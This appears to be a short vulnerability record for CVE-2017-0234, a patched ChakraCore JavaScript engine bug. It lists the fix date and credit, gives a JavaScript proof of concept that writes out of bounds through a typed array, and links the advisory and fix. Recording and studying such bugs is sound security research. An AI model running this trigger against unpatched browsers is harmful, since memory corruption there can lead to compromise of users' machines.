 # CVE-2017-0234

- Fix: May 2017
- Credit: Yuange of Tencent Zhanlu Lab

## PoC

```javascript
function write(begin, end, step, num) {
    for (var i = begin; i < end; i += step) view[i] = num;
}

var buffer = new ArrayBuffer(0x10000);
var view = new Uint32Array(buffer);

write(0, 0x4000, 1, 0x1234);
write(0x3000000e, 0x40000010, 0x10000, 1851880825);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-0234)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/a1345ad48064921e8eb45fa0297ce405a7df14d3)